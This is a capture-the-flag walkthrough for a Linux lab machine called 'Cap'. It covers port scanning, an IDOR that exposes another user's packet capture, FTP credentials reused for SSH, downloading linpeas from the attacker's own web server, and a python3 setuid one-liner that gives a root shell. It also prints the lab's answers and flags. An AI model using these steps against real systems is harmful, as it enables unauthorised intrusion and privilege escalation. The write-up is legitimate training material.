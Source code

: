 # Cap
----------
*Linux* - Running an HTTP server that performs administrative functions including network captures. Improper controls result in IDOR giving access to another user's capture. It contains plaintext credentials and can be used to gain foothold. A Linux capability then is leveraged to escalate to root.

-----------------------
## Task 1

How many TCP ports are open?

## Solution 1

Run the scan via the Nmap:

```sh
nmap -sV 10.10.10.245
```

And this shows the open TCP ports, which in our case is three.

```sh
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
```

-----------
## Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

## Solution 2

On the page, there is a functionality "Security Snapshot", when we click on that one, it goes to a Security Dashboard whose URL is `/data/40`, so the answer to this is `data`.

------------
## Task 3

Are you able to get to other users' scans?

## Solution 3

As we saw on the previous task, the URL was `/data/40` which generates a `.pcap` security report, and if we open that with `Wireshark` we see that its just that.

The important point here is that in the URL there is an ID, which may suggest that there may be and `IDOR` vulnerability, so let's test it by giving some other number.

I gave some random numbers, such as 7, and downloaded the report, I see that it's the same source IP address, so it's ours.

But, when I gave the 0 as ID, it produced much more results, and there are different IP-s which are not mine, so yes, I can see other users scans, utilizing the IDOR vulenrability.

-------------
## Task 4

What is the ID of the PCAP file that contains sensitive data?

##  Solution 4

As was shown in the previous task, it is 0.

-----------

## Task 5

Which application layer protocol in the pcap file can the sensitive data be found in?

## Solution 5

On the Wireshark from the `0.pcap` we see sensitive information such as `username = nathan` and `password = Buck3tH4TF0RM3!` on the `ftp` protocol, so the answer here is `ftp`.

-------------

## Task 6

We've managed to collect nathan's FTP password. On what other service does this password work?

## Solution 6

From the **Task 1** we saw an `ssh` service, so we try to connect to that with the found credentials.

```sh
ssh nathan@10.10.10.245
```

And when provided with the password it connected to it, so the answer is `ssh`.

----------

## Task 7

Submit the flag located in the nathan user's home directory.

## Solution 7

We now are logged in on the `/home/nathan` directory, and we list the files:

```sh
ls -l
total 820
-rwxrwxr-x 1 nathan nathan 828287 Apr  2  2023 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Mar 16 11:24 snap
-r-------- 1 nathan nathan     33 Mar 16 03:12 user.txt
```

I open the `user.txt`:

```sh
cat user.txt
9f961b671cb52c104970990247004b94
```

And this is the flag.

----------

## Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

## Solution 8

Let's download the `linPEAS` a Linux privilege escalation tool.

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

But, this didn't work, as it was unable to resolve the host address, so I will download this to my machine, and then download it from the target machine.

```sh
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Then start a server, such as the one with python:

```sh
python3 -m http.server
```

Now, download it to the target machine:

```sh
wget http://10.10.14.187:8000/linpeas.sh
```

Add the execution permissions:

```sh
chmod +X linpeas.sh
```

And from the results we see a highlighted file that is a *file with capabilities*:

```sh
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The answer to this task is `/usr/bin/python3.8`.

-----------

## Final Task

Submit the flag located in root's home directory.

## Solution

File with capabilities means that the binary has the `CAP_SETUID` capability set or it is executed by another binary with the capability set.

And being such, it can be used to manipulate the process UID and escalate privileges

This can be done by executing:

```sh
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Now I'm root:

```sh
whoami
root
```

Navigate to the root's home folder.

```sh
cd /root
```

There we have a `root.txt` file, which has the flag:

```sh
cat root.txt
a123e36a0476425550c6432f5d403cbe
```

Which is the final flag and solves the lab.

